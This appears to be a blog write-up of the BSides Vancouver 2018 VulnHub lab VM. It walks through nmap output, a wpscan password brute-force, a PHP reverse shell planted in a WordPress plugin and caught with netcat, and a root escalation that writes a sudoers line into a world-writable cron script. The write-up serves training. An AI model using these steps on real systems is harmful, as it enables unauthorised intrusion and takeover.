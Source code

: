 ```yaml
---
title: "CTF Write Up : BSides Vancouver 2018 Workshop"
description: "BSides Vancouver 2018 CTF Challenge from vulnhub.com"
layout: post
---
```

Back again with another CTF write up. This boot2root VM was meant for a workshop style 
introduction to penetration testing techniques, methodologies, common pitfalls and 
tools at a conference in Vancouver. The VulnHub.com page can be found [here](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) and the 
slides from the talk can be found [here](https://www.abatchy.com/projects).

### Information Gathering

nmap service version scan output: 
{% highlight terminal %}
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
{% endhighlight %}

Browsing to `ftp://target.ipaddress` reveals a `public` directory with a text file 
backup called `users.txt.bk` containing usernames:

{% highlight text %}
abatchy
john
mai
anne
doomguy
{% endhighlight %}

I've saved this list in a textfile called `b-side-users.txt` in my home directory

Here's the robots.txt from the webpage:
{% highlight text %}
User-agent: *
Disallow: /backup_wordpress
{% endhighlight %}

A hidden wordpress installation. There's our entry point. 

### Bruteforcing the WordPress login form with wpscan

According to a page from the blog, `john` is site admin. So we can use the username john with the 
`rockyou` wordlist to bruteforce the login form with `wpscan`. 

{% highlight terminal %}
wpscan --url 192.168.56.101/backup_wordpress/ --wordlist /usr/share/wordlists/rockyou.txt --username john
{% endhighlight %}

This will run for a while with an endless ETA due to the rockyou wordlist being huge. 

Strangely, wpscan threw out the following "error":
{% highlight terminal %}
  [!] ERROR: We received an unknown response for login: john and password: enigma
{% endhighlight %}

Even if it's an error, giving the credentials a try grants access to the 
`wp-admin` directory. 

### Getting a shell on the machine

After using those credentials to login, setting up a PHP reverse shell by pasting 
the contents of [this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) into one of the plugins source code with the editor. 
I edited the "Hello Dolly" plugin, kept the plugin details like `Plugin Name:` and `Plugin URI:` as is 
(because without that information WordPress doesn't run the code), then pasted the 
pentestmonkey reverse shell source code. 

There are two variables to change: `$ip = '127.0.0.1';` should be changed to 
our Kali VM's IP and just because `$port = 1234` will be changed to `$port = 666;`

### Hail Satan, we're in

All that's left to do with WordPress, is enable the plugin _after_ setting up the 
netcat listener. 

Listening for the connection with netcat: 
{% highlight terminal %}

root@kali:~# nc -l -p 666
Linux bsides2018 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 11:13:41 up  7:51,  0 users,  load average: 0.00, 0.05, 1.38
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

{% endhighlight %}

Spawning an interactive tty shell:
{% highlight terminal %}
python -c 'import pty; pty.spawn("bin/bash")'
www-data@bsides:/$ 
{% endhighlight %}

### Unpriviledged access 
Time to look into escalating www-data privileges or logging into another users account.
### Plaintext passwords in the WordPress installation?
Here's a snippet from the `wp-config.php` file: 
{% highlight php %}
// MySQL database username
define('DB_USER', 'john@localhost');

// MySQL database password
define('DB_PASSWORD', 'thiscannotbeit');
{% endhighlight %}

These could be the credentials for the user john on this machine and not just 
MySQL creds. Let's give it a shot: 
{% highlight terminal %}
www-data@bsides2018:/var/www/backup_wordpress$ su john
su john
Password: thiscannotbeit

su: Authentication failure
www-data@bsides2018:/var/www/backup_wordpress$
{% endhighlight %}
Ah.. what a shame. 
### Are there misconfigured cronjobs?
is there a script file that's world writeable being executed by the root user? 
{% highlight terminal %}
www-data@bsides2018:/etc$ cat crontab
cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /usr/local/bin/cleanup
#
www-data@bsides2018:/etc$ 
{% endhighlight %}

The `/usr/local/bin/cleanup` script looks promising. 
Checking the file permissions: 

{% highlight terminal %}
www-data@bsides2018:/etc$ ls -asl /usr/local/bin/cleanup
ls -asl /usr/local/bin/cleanup
4 -rwxrwxrwx 1 root root 64 Mar  3  2018 /usr/local/bin/cleanup
{% endhighlight %}

It's world writeable and runs as root. The cleanup script before the changes:

{% highlight bash %}
#!/bin/bash

# Clean those damn logs!
rm -rf /var/log/apache2/*
{% endhighlight %}

### Adding www-data to the sudoers file

if you're a brave soul and wish to use `vi` over the netcat session be my guest. 
I'll just rewrite the script to add the www-data user to the sudoers file with echo:
{% highlight terminal %}
www-data@bsides2018:/usr/local/bin$ echo 'echo -e "#!/bin/sh\nwww-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >> cleanup
www-data@bsides2018:/usr/local/bin$ cat cleanup
cat cleanup
#!/bin/sh
echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
www-data@bsides2018:/usr/local/bin$ 
{% endhighlight %}

At this point, I went to make a coffee. Sometimes it takes a while. 

### Getting root
{% highlight terminal %}
www-data@bsides2018:/etc$ sudo -i
sudo -i
root@bsides2018:~#
{% endhighlight %}
### Capturing the flag
`flag.txt` is in the root directory:

>Congratulations!
>
>If you can read this, that means you were able to obtain root permissions on this VM.
>You should be proud!
>
>There are multiple ways to gain access remotely, as well as for privilege escalation.
>Did you find them all?
>
>@abatchy17

Revisiting the VM at a later date and figuring out some of the other methods of remote access 
and privilege escalation sounds like a fun idea. 

### Until then, Happy Hacking!
